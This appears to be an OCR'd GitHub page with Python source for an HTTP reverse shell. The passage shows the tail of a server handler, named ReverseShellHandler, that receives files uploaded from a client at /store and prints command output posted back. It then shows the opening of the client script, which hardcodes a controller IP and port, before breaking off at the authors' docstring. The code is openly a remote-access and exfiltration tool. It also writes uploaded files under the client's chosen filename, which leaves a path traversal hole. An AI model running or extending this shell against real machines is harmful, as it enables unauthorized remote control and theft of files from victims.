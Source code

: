 ``` python
        """
        When the server is hit with a POST request it will
        first check to see if the path has been appended with /store
        meaning that it is sending a file back. If so the file parsed
        and returned to its original format using FieldStorage and is saved.

        Otherwise if store is not in the path the data from the POST is printed out
        """
        if self.path == '/store':  # Check whether /store is appended or not

            ctype, _ = cgi.parse_header(
                self.headers['content-type'])
            if ctype == 'multipart/form-data':
                fs = cgi.FieldStorage(fp=self.rfile, headers=self.headers, environ={
                    'REQUEST_METHOD': 'POST'})

            # Here file is the key to hold the actual file, same key as the one set in client.py
            fs_up = fs['file']

            # Create new file and write contents into this file
            with open(fs_up.filename, '+wb') as o:
                o.write(fs_up.file.read())
                self.send_response(200)
                self.end_headers()
            return

        self.send_response(200)
        self.end_headers()

        # Define the length which means how many bytes the HTTP POST data contains
        length = int(self.headers['Content-Length'])

        postVar = self.rfile.read(length).decode()

        print(Fore.GREEN + postVar, end='')
        print(Style.RESET_ALL)

def main():
    with socketserver.TCPServer(("", PORT), ReverseShellHandler) as httpd:
        print(f"serving at port {PORT}")
        try:
            httpd.serve_forever()
        except KeyboardInterrupt:
            print("Server is terminated")
            httpd.server_close()
```

## II. Client Code

``` python
#!/usr/bin/env python3

from zipfile import ZipFile
import http.client
import subprocess
import time
import requests
import os

IP = 'http://' + '172.19.69.245' + ':8080'

"""
Authors: Jordan Sosnowski and John Osho
```